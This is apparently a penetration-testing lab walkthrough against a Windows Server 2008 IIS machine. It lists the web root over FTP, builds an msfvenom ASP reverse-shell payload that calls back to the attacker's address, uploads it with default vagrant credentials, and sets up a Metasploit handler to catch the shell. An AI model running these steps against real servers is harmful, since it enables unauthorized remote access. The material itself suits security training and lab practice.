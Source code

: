 ![](.gitbook/assets/image-20230424111747193.png)

```bash
ls
    229 Entering Extended Passive Mode (|||49567|)
    125 Data connection already open; Transfer starting.
    10-28-21  07:22AM       <DIR>          aspnet_client
    10-28-21  07:19AM                   28 caidao.asp
    10-28-21  07:18AM                34251 hahaha.jpg
    10-28-21  07:18AM              1116928 index.html
    10-28-21  07:18AM              2439511 seven_of_hearts.html
    10-28-21  07:18AM               384916 six_of_diamonds.zip
    10-28-21  07:22AM               184946 welcome.png
    
# Web server home directory
```

- IIS can execute `.asp` files
- Generate an `.asp` reverse shell payload and upload it with FTP

```bash
cd cd Desktop/Win2k8/
ip -br -c a
	10.10.24.4/24
	
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.24.4 LPORT=1234 -f asp > shell.aspx
```

```bash
ftp 10.2.29.246
# use vagrant:vagrant
put shell.aspx
```

- Back to the `msfconsole` session tab

```bash
use multi/handler
set payload windows/shell/reverse_tcp
set LHOST 10.10.24.4
set LPORT 1234
```

